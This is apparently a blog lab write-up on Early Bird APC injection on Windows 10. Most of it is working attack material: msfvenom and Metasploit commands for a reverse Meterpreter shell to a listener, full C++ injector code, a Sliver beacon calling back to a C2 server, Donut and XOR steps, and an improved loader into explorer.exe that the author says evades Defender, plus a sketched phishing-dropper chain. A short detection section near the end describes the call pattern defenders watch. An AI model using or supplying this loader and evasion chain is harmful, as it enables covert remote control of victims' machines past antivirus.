





## Requirement

In this lab I'll be using __Metasploit__, __msfvenom__, __Donut__, __Sliver__, and __Windows 10 22h2__ with Defender as AV.

## Introduction

Early Bird APC injection is a process injection technique that execute malicious code within a legitimate process before the main thread's entry point. It involves creating a new process in a suspended state, allocating memory for shellcode, and queuing an [APC](https://learn.microsoft.com/en-gb/windows/win32/sync/asynchronous-procedure-calls?redirectedfrom=MSDN) to the main thread before resuming the execution.  
It was first discovered in 2018, and still actively used today because it allows malware to execute malicious code before the process's main thread initialized, effectively bypassing many security hooks and monitoring tools that engage after standard process startup.



## Basic Implementation

For this lab, we'll be using __msfvenom__ for creating shellcode and __Metasploit__ for setting up a listener. The command for creating a shellcode is bellow:

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.123 LPORT=9999 -f c
```

Don't forget to change the host and the port. This is the complete code:

```cpp
#include <windows.h>
#include <iostream>

int main() {
    STARTUPINFOA si{};
    PROCESS_INFORMATION pi{};
    si.cb = sizeof(si);
    // create a process in a suspended state
    BOOL ok = CreateProcessA(NULL, (LPSTR)"notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    if (!ok) {
        std::cerr << "failed to create process";
        return 1;
    }

    // get the handle to the created process and its thread
    HANDLE targetProcess = pi.hProcess;
    HANDLE targetThread = pi.hThread;

    // the shellcode we created using msfvenom
    unsigned char shellcode[] =
    "\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52.....";

    // allocate memory the size of the shellcode to the process
    LPVOID remoteAddr = VirtualAllocEx(targetProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    // cast the address into a thread function
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)remoteAddr;
    // write the shellcode to the allocated memory
    WriteProcessMemory(targetProcess, remoteAddr, shellcode, sizeof(shellcode), NULL);
    // queue the function
    QueueUserAPC((PAPCFUNC)apcRoutine, targetThread, NULL);
    ResumeThread(targetThread);
    return 0;
}
```

Now let's settup a listener using __Metasploit__

```shell
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.123
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > run   
```

## Detection

The bad news is if we compiled the code and execute it, it gets flagged by __Windows Defender__ as a `Trojan:Win32/Meterpreter.RPZ!MTB` which is a signature name Microsoft uses for files exhibiting meterpreter behaviour (part of the Metasploit post-exploitation toolkit).



It didn't have time to establish a connection. The reason is Meterpreter reverse tcp has rock-solid signatures, and we didn't use encryption, obfuscation.  

The good news (bad news for EDR vendor) is that early bird APC is __still__ actively used in 2026.  The newly identified malware loader [Kiss Loader](https://blog.gdatasoftware.com/2026/03/38399-analysis-kissloader) (discovered in early March of 2026) maintains stealth through Early Bird APC injection. The main differences between Kiss Loader and our implementation are the target process is `explorer.exe`, the shellcode is generated with __Donut__ instead of msfvenom, encrypted at rest and decrypted only at runtime.

## Modern Evasion Stack: Sliver + Donut + Runtime Decryption

__Beacons__ are small programs that run on a target machine and communicate with a server, in our case __Sliver__. We can generate one with Sliver. Start by lauching `sliver-server` and execute the following command:

```sh
generate beacon --http http://ip:80 --save beacon.exe
```
 Replace the ip with the machine's ip that will be used for running the C2 server. Sliver will generate our beacon and save it as an executable.
 
 

Now we have a problem. If we just drop the executable on a target, antivirus might notice it because it's a static file stitting on a disk. __Donut__ will solve this problem for us. It takes a Windows executable (like our beacon), DLL, or .NET assembly and turns it into __in-memory__ shellcode that can be injected directly into a process without touching the disk, which helps bypass antivirus.

```sh
donut -i beacon.exe -o shellcode.bin -a 2 -f 1
```

Donut shellcode is unique per build, and this gives us clean reflective shellcode that loads our Sliver beacon in-memory.



Now we're going to XOR encrypt our shellcode, it will be decrypted at run time.

```python
key = b"very_secure_xor_key"
with open("shellcode.bin", "rb") as f: data = f.read()
enc = bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
with open("encrypted.bin", "wb") as f: f.write(enc)
```

## Improved Loader

With this encrypted shellcode, we can now update our code to read it, decrypt it at runtime and use it for our Early Bird APC injection

```cpp
#include <windows.h>
#include <string>
#include <vector>
#include <iostream>
#include <fstream>

int main() {
    const std::string encryptedFile = "encrypted.bin";
    const std::string xorKey = "very_secure_xor_key";
    const std::string targetProcess = "explorer.exe";

    std::ifstream file(encryptedFile, std::ios::binary | std::ios::ate);
    if (!file) {
        std::cerr << "failed to open encrypted file\n";
        return 1;
    }
    std::streamsize size = file.tellg();
    file.seekg(0, std::ios::beg);
    std::vector<unsigned char> encrypted(size);
    file.read(reinterpret_cast<char*>(encrypted.data()), size);

    // decrypt at runtime
    std::vector<unsigned char> shellcode(size);
    for (size_t i = 0; i < size; i++) {
        shellcode[i] = encrypted[i] ^ xorKey[i % xorKey.length()];
    }

    STARTUPINFOA si{};
    PROCESS_INFORMATION pi{};
    si.cb = sizeof(si);

    CreateProcessA(NULL, (LPSTR)targetProcess.c_str(), NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    HANDLE targetProcessH = pi.hProcess;
    HANDLE targetThreadH = pi.hThread;
    LPVOID remoteAddr = VirtualAllocEx(targetProcessH, NULL, shellcode.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(targetProcessH, remoteAddr, shellcode.data(), shellcode.size(), NULL);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)remoteAddr;
    QueueUserAPC((PAPCFUNC)apcRoutine, targetThreadH, NULL);
    ResumeThread(targetThreadH);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return 0;
}
```
Before running the code, we need to setup a listener in Sliver. We can do so with 

```sh
http --lport 80
```

This will run a listener in the background. Now if we run our code, the beacon will connect back to Sliver.

Windows defender wasn't able to detect anything. The command `beacons` will list all connections, we can switch into interactive mode with the commmand `use` + `session ID`.



## Going further

Some EDRs flag big write, using `VirtualAllocExNuma` + `WriteProcessMemory` can reduce the risk of being detected. Also, AES or ChaCha20 is better than XOR for encryption. For a stealthier injection, we might add `NtCreateSection` + `NtMapViewOfSection`.


## Detection & Defense

The most direct signal is a remotely allocated region with `PAGE_EXECUTE_READWRITE` permissions. Defenders should alert on any process allocating executable and writable memory in a remote process, expecially when followed immediately by `WriteProcessMemory` and `QueueUserAPC`. `QueueUserAPC` targeting a threat in a suspended process is a strong behavorial indicator. This call pattern: CreateProcess with CREATE_SUSPENDED -> VirtualAllocEx -> WriteProcessMemory -> QueueUserAPC -> ResumeThread is the Early Bird fingerprint. ETW (Event Tracing for Windows) providers like `Microsoft-Windows-Threat-Intelligence` expose these kernel-level events, and EDRs with kernel callbacks can catch this sequence in real time.

## Conclusion

Windows Defender is good at catching known signatures, but layerign a few sell-known techniques is enough to slip past it entirely. In a real-world scenario, the attack chain would start with initial access, most commonly through phishing. The initial payload is not the loader itself, but a small dropper that delivers both the loader and encrypted.bin, then executes the loader or runs a short PowerShell one-liner to kick things off.  
The takeaway is that Defender alone is not a sufficient detection layer for this class of attack. Defense in depth is required.  
That's all folks. In the future I'll be doing more C2 related lab. Stay safe, until next time :).
